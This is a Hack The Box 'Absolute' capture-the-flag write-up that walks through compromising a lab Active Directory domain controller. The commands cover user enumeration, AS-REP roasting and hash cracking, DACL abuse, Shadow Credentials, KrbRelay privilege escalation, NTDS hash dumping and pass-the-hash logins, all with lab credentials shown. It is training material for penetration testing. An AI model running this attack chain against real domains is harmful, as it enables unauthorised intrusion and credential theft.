







---
---

# HTB - Absolute

NMAP


Add **absolute.htb** to /etc/hosts
Add **dc.absolute.htb** to /etc/hosts


- We can download all the images and check if they have Author names attached to them:

```bash
exiftool hero* | grep "Author"

```


- Try and find potential domain usernames by rearranging the found names, with this python script:

```python
#!/usr/bin/env python3
import sys

def generate_username(name, surname):
    first = name[0].lower()
    last = surname[0].lower()
    username_options = [
        name,
        surname,
        first + '.' + surname,
        first + surname,
        name + last,
        name + '.' + last,
        name + '.' + surname,
        name + '_' + surname,
        first + '_' + surname,
        name + '_' + last,
        first + '-' + surname,
        name + '-' + last,
        last + '-' + name
    ]
    return username_options

if len(sys.argv) < 2:
    print("Usage: python script.py <input_file>")
    sys.exit(1)

infile = sys.argv[1]
with open(infile, "r") as file:
    lines = file.readlines()
    for line in lines:
        line = line.strip()
        if not line:
            continue
        temp = line.split()
        name = temp[0].lower()
        surname = ' '.join(temp[1:]).lower()
        usernames = generate_username(name, surname)
        for username in usernames:
            print(username)

```


```bash
./kerbrute -v userenum -d absolute.htb --dc absolute.htb potentials | grep "VALID"

```


```bash
cat valid_users | cut -d ":" -f 4 | cut -d " " -f 2

```



```bash
impacket-GetNPUsers absolute.htb/ -users valid_users.txt -no-pass -dc-ip absolute.htb

```


```bash
hashcat -m 18200 --force -a 0 hash.txt /usr/share/wordlists/rockyou.txt

```


**d.klay : Darkmoonsky248girl**

- Nothing useful can be done with the credentials:


SMB does however gives an interesting error:

**STATUS_ACCOUNT_RESTRICTION**

- The account is restricted


- It doesn't say LOGON FAILURE but rather, accessing it through this method is restricted
So to bypass the restrictions we can try and authenticate with a valid TGT for the user:

```bash
impacket-getTGT 'absolute.htb/d.klay:Darkmoonsky248girl'

```


```bash
export KRB5CCNAME=d.klay.ccache

```


Error: KRB_AP_ERR_SKEW




```bash
sudo ntpdate -u dc.absolute.htb && sudo hwclock --systohc

```


```bash
crackmapexec smb dc.absolute.htb --use-kcache --shares

```


- We need to use impacket's SMB client because it supports Kerberos authentication:

```bash
impacket-smbclient -k dc.absolute.htb

```


But we can't access the share:


- We have ldap access as well - so we can list all users:

```bash
crackmapexec ldap dc.absolute.htb --use-kcache --users

```


- And we get credentials in the description:
**svc_smb : AbsoluteSMBService123!**

- We can try them with SMB:


- Get a TGT for the svc_smb:

```bash
impacket-getTGT 'absolute.htb/svc_smb:AbsoluteSMBService123!'

```


```bash
export KRB5CCNAME=svc_smb.ccache

```


```bash
impacket-smbclient -k dc.absolute.htb

```


And we get can access the Shared folder.

Download the files.

- Open a Windows VM and run test.exe
**Nothing happens**

- I ran it again and opened it in API Monitor

- Searching for the domain name "absolute" - we can see a few things:

It is using the name **mlovegod** to authenticate to the DC's LDAP service.

It looks like the password is encoded.


CyberChef couldn't decrypt it


- On the Windows VM, install the Openvpn GUI, upload test.exe and install Wireshark to capture the traffic
- Disconnect the Openvpn connection on Kali
- Copy your openvpn profile .ovpn file to the Windows machine

- Run the ovpn profile so it connects


- Add the IP and dc.absolute.htb to **C:\Windows\System32\drivers\etc\hosts**
(Open in admin terminal and run notepad)


- With Wireshark capturing on all interfaces - run test.exe:


- Follow the TCP Stream from the LDAP:


- We get the credentials:
**mlovegod : AbsoluteLDAP2022!**

Doesn't work:


But if we change the format of the username, as seen in the ldap users dump, to m.lovegod:




- Get a TGT for m.lovegod:

```bash
impacket-getTGT 'absolute.htb/m.lovegod:AbsoluteLDAP2022!'

```


```bash
export KRB5CCNAME=m.lovegod.ccache

```


- We can't evil-winrm in

- But using the TGT we can run bloodhound remotely:

```bash
bloodhound-python -k -c all -d absolute.htb -ns 10.129.229.59 -dc dc.absolute.htb -no-pass -u m.lovegod

```


**\*\*The new bloodhound showed nothing but the old bloodhound version shows an escalation path**

- M.lovegod owns Network Audit group that has GenericWrite over winrm_user that can PSRemote to the machine (DC)
Also, both m.lovegod and winrm_user are in Protected Users group:


In kerberos, pre-authentication is needed to be done in order for KDC to make sure that you have credentials for the account, without pre-auth, anyone can get encrypted password and crack it offline (perform ASREP-Roast).

**Pre-auth** can be done in two ways:
- **symmetric/secret key** which is the most common one
- **asymmetric/public key** that uses **certificates** which are called **PKINIT**

Since m.lovegod (as a member of Network Audit group) have a GenericWrite over winrm_user that means we can modify its attribute called **msDS-KeyCredentialLink**.

The attribute itself stores client’s public key and a bunch of other data in serialized format. So **if we can write to the attribute**, that means we can **obtain a valid TGT** for that account. That attack/technique is called **Shadow Credentials**

<u>Steps:</u>
1.  Give m.lovegod the permissions/ACL for the Network Audit group
2.  Add m.lovegod to the group
3.  Perform Shadow Credentials attack on winrm_user and finally get his TGT

**<u>Step 1 - DACL edit - Give user Full Control</u>**

Because we have **'owns' permission** for Network Audit **but we are not members of it yet**, lets grant us all permissions for that group by adding ACL for m.lovegod using impacket-dacledit

<https://www.thehacker.recipes/a-d/movement/dacl/grant-rights>

<https://github.com/ShutdownRepo/impacket/tree/dacledit>

(Could be done with bloodyAD but the -k option doesn't want to work

```bash
./bloodyAD.py --host "10.129.229.59" -d "absolute.htb" -u "m.lovegod" -p "AbsoluteLDAP2022!" add genericAll 'Network Audit' 'm.lovegod'
```

- Download the zip file from the repo above
- Unzip and cd into the folder and into examples
- cp dacledit.py up one folder
- Run pip install -r requirements.txt

- Export the KRB env variable to the FULL path


- If we try and read the ACL's that m.lovegod has over the group - There aren't any:

```bash
./dacledit.py absolute.htb/m.lovegod:AbsoluteLDAP2022! -k -target-dn 'DC=absolute,DC=htb' -dc-ip 10.129.229.59 -action read -principal 'm.lovegod' -target 'Network Audit'

```



- Run dacledit.py and change read for write:

```bash
./dacledit.py absolute.htb/m.lovegod:AbsoluteLDAP2022! -k -target-dn 'DC=absolute,DC=htb' -dc-ip 10.129.229.59 -action **write** -principal 'm.lovegod' -target 'Network Audit'

```



- Now when we read it, we can see that we have FullControl:


- The ACL gets removed after a short amount of time

**<u>Step 2 - Add user to group - net rpc</u>**

Now that we have Full Control over the group Network Audit - We can add ourselves to the group

<https://www.thehacker.recipes/a-d/movement/dacl/addmember>


- Using the net rpc command - we can add the user to the group:

```bash
net rpc group addmem "Network Audit" 'm.lovegod' -U 'absolute.htb/m.lovegod' --use-kerberos=required -S dc.absolute.htb --realm absolute.htb

```
But we get an error


**<u>Kerberos fix:</u>**
- Make sure the Linux Kerberos library is installed:

```bash
sudo apt install krb5-user

```
- Export the KRB env variable to the FULL path


- cp /etc/krb5.conf /etc/krb5.conf.bak

- Edit **/etc/krb5.conf** - so it reflects this: (The krb5.conf file isn't used by impacket but most other apps do use it)


- Edit **/etc/resolv.conf** - so it reflects this (DC IP):
Adding dc.absolute.htb as a DNS server


- And **/etc/hosts**:


- Kinit will still show this - but it means we can connect to the KDC now:


- Because the ACL's get removed, we need to do everything in quick succession:

```bash
python3 dacledit.py absolute.htb/m.lovegod:AbsoluteLDAP2022! -k -target-dn 'DC=absolute,DC=htb' -dc-ip 10.129.229.59 -action write -principal 'm.lovegod' -target 'Network Audit' && python3 dacledit.py absolute.htb/m.lovegod:AbsoluteLDAP2022! -k -target-dn 'DC=absolute,DC=htb' -dc-ip 10.129.229.59 -action read -principal 'm.lovegod' -target 'Network Audit' && **net rpc group addmem "Network Audit" 'm.lovegod' -U 'absolute.htb/m.lovegod' --use-kerberos=required -S dc.absolute.htb --realm absolute.htb**

```


- And then we can check the group members to be sure:

```bash
net rpc group members "Network Audit" -U 'absolute.htb/m.lovegod' --use-kerberos=required -S dc.absolute.htb --realm absolute.htb

```



Now we are member of Network Audit, we need to get a new TGT for m.lovegod and export it, because the permissions we granted to m.lovegod are not applied to TGT we currently have

```bash
impacket-getTGT 'absolute.htb/m.lovegod:AbsoluteLDAP2022!'

```


```bash
export KRB5CCNAME=/home/hokage/HTB/Absolute/m.lovegod.ccache

```


**<u>Step 3 - Shadow credentials - Winrm_user</u>**

<u>Option 1 - Certipy:</u>

- At this point, we should have GenericWrite over the winrm_user , so we first check if ADCS is installed, using certipy:

```bash
certipy find -k -no-pass -u absolute.htb/m.lovegod@dc.absolute.htb -dc-ip 10.129.229.59 -target dc.absolute.htb

```


- It seems like ADCS is indeed installed on the system. Since we have GenericWrite and ADCS is installed, we can overwrite the **msDS-KeyCredentialLink** attribute of **winrm_user**, which is vital for the shadow credential attack, and get a TGT for this user.

```bash
certipy shadow auto -k -no-pass -u absolute.htb/m.lovegod@dc.absolute.htb -dc-ip 10.129.229.59 -target dc.absolute.htb -account winrm_user

```


We get the hash and the Kerberos ccache file but because winrm_user is in the Protected Users group, we can't use the hash

```bash
export KRB5CCNAME=winrm_user.ccache

```


- Evil-winrm automatically uses Kerberos ticket if no credentials are supplied
Evil-winrm uses the /etc/krb5.conf file so make sure ABSOLUTE.HTB is added (as per the previous screenshot)

```bash
evil-winrm -i dc.absolute.htb -r absolute.htb

```


<u>Option 2 - pywhisker:</u>

- Pywhisker is a remote version of Whisker.exe written in python.
It will get us a PFX Certificate for PKINIT Kerberos authentication and a password for it

<https://github.com/ShutdownRepo/pywhisker>

```bash
python3 pywhisker.py -d absolute.htb -u "m.lovegod" -k -t "winrm_user" --action "add" --dc-ip 10.129.229.59

```


- If you get the error:


- Downgrade OpenSSL:

```bash
pip install pyOpenSSL 23.0.0

```
- Now using PKINIT Tools, we can get a TGT from the PFX certificate using gettgtpkinit.py:
<https://github.com/dirkjanm/PKINITtools/tree/master>

```bash
python3 gettgtpkinit.py absolute.htb/winrm_user -cert-pfx WmEE6V3q.pfx -pfx-pass LHDludLCpgVu8rQCbDAF winrm_user.ccache

```


```bash
export KRB5CCNAME=winrm_user.ccache

```


- Evil-winrm automatically uses Kerberos ticket if no credentials are supplied
Evil-winrm uses the /etc/krb5.conf file so make sure ABSOLUTE.HTB is added (as per the previous screenshot)

```bash
evil-winrm -i dc.absolute.htb -r absolute.htb

```



**<u>Priv Esc - KrbRelay - Option 1</u>**

Enumerating the remote machine, we quickly come to notice that everything seems to be standard and patched.

But we did deal a lot with Kerberos in the foothold phase.

KrbRelay works on default Windows installations, in which **LDAP signing is disabled**

<https://github.com/cube0x0/KrbRelay>

- Open the .sln file and build the two .exe files, so you have:
CheckPort.exe

KrbRelay.exe

Or use already built repo:

<https://github.com/Flangvik/SharpCollection/tree/master/NetFramework_4.7_Any>

- First we execute CheckPort.exe, to find available ports for the OXID resolver to run


<https://thrysoee.dk/InsideCOM+/ch19f.htm>


**Port 10 is open**

- Then, we need to find a CLSID to specify the service that KrbRelay is going to run in.
The CLSIDs vary among Windows versions, but we can typically use the default ones like the CLSID of TrustedInstaller:

**8F5DF053-3013-4dd8-B5F4-88214E81C0CF**


<u>Get more CLSIDs:</u>
- This tool can enumerate for more valid CLSIDs
<https://github.com/tyranid/oleviewdotnet>

- Or the KrbRelay Github has some in the examples:
<https://github.com/cube0x0/KrbRelay>

- Or JuicyPotato GitHub:
<https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_10_Enterprise>

```bash
.\KrbRelay.exe -spn ldap/dc.absolute.htb -clsid 8F5DF053-3013-4dd8-B5F4-88214E81C0CF -port 10
```


We get the error Access Denied.

**KrbRelay needs an interactive session**, a console, on the machine.

During an interactive session, the **credentials** for the user are stored **in memory**.

Unfortunately, this is not the case when using PS remoting to access the machine.

- Test with **qwinsta** - as it requires an interactive session to run


We can see that there are no interactive sessions

<https://cybersafe.co.il/wp-content/uploads/2021/11/LOGON-types-compressed_compressed.pdf>


<u>Create a session with RunasCs:</u>

Logon type 9 is our best option at this point because we will authenticate over the network as another user, with any password we want, while we run the application locally as ourselves

- Test with the "qwinsta" command:

```bash
.\runascs.exe winrm_user -d absolute.htb **MadeUpPassword** -l 9 "qwinsta"

```


- Re-run KrbRelay through RunasCs:

```bash
.\runascs.exe winrm_user -d absolute.htb MadeUpPassword -l 9 "C:\users\winrm_user\Documents\KrbRelay.exe -spn ldap/dc.absolute.htb -clsid 8F5DF053-3013-4dd8-B5F4-88214E81C0CF -port 10"

```


LDAP session established successfully

- Now add the winrm_user to the Administrators group:

```bash
.\runascs.exe winrm_user -d absolute.htb MadeUpPassword -l 9 "C:\users\winrm_user\Documents\KrbRelay.exe -spn ldap/dc.absolute.htb -clsid 8F5DF053-3013-4dd8-B5F4-88214E81C0CF -port 10 -add-groupmember Administrators winrm_user"

```


- Check with:

```bash
net user winrm_user

```


```bash
cat root.txt

```
**<u>Priv Esc - KrbRelayUp - Option 2</u>**

```bash
.\RunasCs.exe m.lovegod AbsoluteLDAP2022! -d absolute.htb -l 9 "C:\Users\winrm_user\Documents\KrbRelayUp.exe relay -m shadowcred -cls {752073A1-23F2-4396-85F0-8FDB879ED0ED}"

```


```bash
.\Rubeus.exe asktgt /user:DC$ /certificate:<certificate(ce text)> /password:"oH0/mS2@rD4#" /getcredentials /show /nowrap

```


Got DC\$ hash - A7864AB463177ACB9AEC553F18F42577

- <u>Dump hashes:</u>

```bash
impacket-secretsdump -hashes :A7864AB463177ACB9AEC553F18F42577 'absolute.htb/dc$@dc.absolute.htb'

```


```bash
crackmapexec smb absolute.htb -u DC$ -H :A7864AB463177ACB9AEC553F18F42577 --ntds

```


```bash
evil-winrm -i dc.absolute.htb -u Administrator -H 1f4a6093623653f6488d5aa24c75f2ea

```

